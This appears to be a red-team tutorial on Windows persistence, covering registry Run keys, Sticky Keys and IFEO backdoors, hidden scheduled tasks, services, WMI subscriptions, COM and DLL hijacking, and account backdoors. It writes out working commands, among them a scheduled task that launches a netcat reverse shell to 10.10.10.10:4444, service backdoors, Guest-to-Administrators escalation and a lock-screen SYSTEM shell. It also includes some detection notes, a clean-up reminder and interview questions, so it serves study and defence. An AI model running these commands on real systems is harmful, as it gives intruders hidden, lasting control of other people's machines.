


# Windows Persistence: The Art of Staying

## 1. Introduction
Gaining access is 10% of the job. Keeping access is 90%.
Persistence is the technique of installing a "backdoor" that allows you to regain access after a reboot, a password change, or a network disconnection.

**The Golden Rule**: Persistence leaves artifacts. The more persistent you are, the easier you are to catch.

### Beginner Analogy
Imagine breaking into a house.
*   **No Persistence**: You enter through an open window. If the owner closes the window, you are locked out.
*   **Persistence**: You unlock the back door (Registry Run Key). You make a copy of the key (Create User). You hide a key under the mat (Web Shell).

---

## 2. Registry Persistence (The "Run" Keys)

The Registry controls everything. The most common persistence is the "Run" keys.

### 2.1 Standard Keys
*   `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (User level)
*   `HKLM\Software\Microsoft\Windows\CurrentVersion\Run` (System level - requires Admin)
*   `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce` (Runs once, then deletes itself).

### 2.2 Advanced Registry Keys
Attackers use obscure keys to hide.
*   **Winlogon Helper**: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`.
    *   Default: `C:\Windows\system32\userinit.exe,`
    *   Backdoored: `C:\Windows\system32\userinit.exe,C:\Evil.exe`
*   **Image File Execution Options (IFEO)**: "Sticky Keys Attack".
    *   Key: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe`
    *   Value: `Debugger = "C:\windows\system32\cmd.exe"`
    *   **Effect**: When user presses SHIFT 5 times (launching Sticky Keys), Windows runs `cmd.exe` instead. Since `sethc.exe` runs as SYSTEM on the lock screen, you get a SYSTEM shell without logging in.

---

## 3. Scheduled Tasks

Tasks are more stealthy than Registry keys because they can be buried in the `\Microsoft\Windows` tree.

### 3.1 Creating a Task
```cmd
schtasks /create /tn "OneDrive Update" /tr "C:\Users\Public\nc.exe 10.10.10.10 4444 -e cmd" /sc onlogon /ru System
```
*   `/tn`: Task Name (Make it look boring).
*   `/tr`: Task Run (The payload).
*   `/sc`: Schedule (OnLogon, Daily, OnIdle).
*   `/ru`: Run User (System, specific user).

### 3.2 Hiding a Task
*   **Technique**: Use a registry hack to remove the Security Descriptor (SD) of the task.
*   **Result**: The task runs, but `schtasks /query` and the GUI Task Scheduler will **not list it**.

---

## 4. Service Persistence

Creating a service ensures your malware runs even if no user logs in.

### 4.1 New Service
```cmd
sc create "WindowsHealth" binpath= "C:\backdoor.exe" start= auto error= ignore
```

### 4.2 Modifying Existing Service
Find a disabled service (e.g., "Fax") and repurpose it.
```cmd
sc config Fax binpath= "C:\backdoor.exe" start= auto
```

---

## 5. WMI Event Subscriptions (Fileless Persistence)

This is the most advanced and stealthy technique. It stores the trigger and the payload in the WMI Database (Objects.data), not as a file on disk (mostly).

### Components
1.  **Event Filter**: *When* to run.
    *   `SELECT * FROM __InstanceModificationEvent WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 300` (Run 5 mins after boot).
2.  **Event Consumer**: *What* to run.
    *   `CommandLineEventConsumer`: Executes a command.
    *   `ActiveScriptEventConsumer`: Executes VBScript/JScript (Directly in memory!).
3.  **Binding**: Connects Filter to Consumer.

**Detection**:
*   Standard Autoruns might miss this (though recent versions catch it).
*   PowerShell: `Get-WMIObject -Namespace root\subscription -Class __EventFilter`.

---

## 6. COM Hijacking & DLL Search Order

### 6.1 COM Hijacking
The Component Object Model (COM) maps CLSIDs (GUIDs) to DLLs in the Registry.
*   **User vs System**: `HKCU\Software\Classes\CLSID` takes precedence over `HKLM`.
*   **Attack**: Find a CLSID loaded by `Explorer.exe`. Create that key in `HKCU` and point it to `Evil.dll`. When Explorer loads, it loads your DLL.

### 6.2 DLL Search Order
If `Firefox.exe` needs `missing.dll`:
1.  It checks the directory where `Firefox.exe` lives.
2.  It checks `System32`.
*   **Attack**: Drop `missing.dll` in the Firefox directory.

---

## 7. Account Persistence

Sometimes the best backdoor is a valid user account.

### 7.1 The "Guest" Account
*   Enable the Guest account and add it to Administrators.
    ```cmd
    net user Guest /active:yes
    net localgroup Administrators Guest /add
    ```

### 7.2 RID Hijacking
*   **Concept**: Modify the SAM registry hive to change the Relative ID (RID) of the Guest account (501) to the RID of Administrator (500).
*   **Result**: Windows treats "Guest" as "Administrator" for permission checks, but tools showing "Group Membership" might be fooled.

---

## 8. Practical Lab: Sticky Keys Backdoor

### Scenario: Local Access Lost
You are worried you might lose your shell. You want a physical backdoor at the login screen.

**Step 1: Check Access**
You need to be SYSTEM or have Write access to `System32` (TrustedInstaller owns it, so usually you need `SeTakeOwnership`).
*   *Alternative*: IFEO method (Registry) requires only Administrator.

**Step 2: The Registry Method (Easier)**
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

**Step 3: Test**
Lock the screen (Win+L). Press SHIFT 5 times.
*   *Result*: A command prompt pops up running as SYSTEM.

---

## 9. Diagrams (Mermaid)

### WMI Persistence Flow



---

## 10. Critical Analysis

### Clean Up!
Red Teams must clean up. Persistence left behind is a vulnerability for the client.
*   Keep a log of every file dropped and every registry key changed.

### Interview Questions
1.  **Q**: How do you detect a "Skeleton Key" attack?
    -   **A**: Skeleton Key is an in-memory patch to LSASS. It doesn't persist reboot. Detection involves finding the `mimikatz` string in LSASS memory (if not obfuscated) or noticing weird authentication patterns (users logging in with the same password across many accounts).
2.  **Q**: What is the difference between `Run` and `RunOnce`?
    -   **A**: `Run` executes every login. `RunOnce` executes once and then the entry is automatically deleted by Windows.

---

## 11. References
- [[08_Group_Policy_Objects]]
- [[04_Authentication_Protocols_Windows]]

# End of Document
